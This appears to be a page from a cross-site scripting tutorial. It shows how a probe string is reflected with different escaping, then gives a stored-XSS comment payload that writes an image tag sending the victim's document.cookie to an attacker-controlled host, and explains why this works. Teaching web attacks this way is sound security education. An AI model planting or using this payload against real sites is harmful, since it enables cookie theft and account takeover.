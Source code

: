 Your payload can appear in the following ways in the page sent back by the server (and/or any other pages in the application, including
pages you may not have access to):


|  |  |  |
| -- | -- | -- |


| Payload  | Result              |  |
| ---------- | --------------------- | -- |
| 1337'">< | 1337'"><            |  |
| 1337'">< | 1337'"&gt;&lt;      |  |
| 1337'">< | 1337'&quot;&gt;&lt; |  |
| 1337'">< | 1337&#39;&quot;><   |  |
|          |                     |  |


A lot can go wrong and can prevent a successful exploitation, and you will need to make sure that you have the correct syntax.

Our goal here, is to get the victim's cookie. To do so, you can create a comment that include the following payload:


```html hljs language-xml
<script>document.write('<img src="http://malicious/?'+document.cookie+'  "/>');</script>
```

Where `malicious` is the IP address or hostname of your server. When the comment will get loaded by the victim, the content of the `<script>` tag will get interpreted and will write (due to the call to `document.write`) in the page a `<img`
tag with a URL that contains the cookie (due to the concatenation of
the cookie by the JavaScript code). The browser will then try to load
this image. Since the image's URL contains the cookie, the malicious
server will receive it.
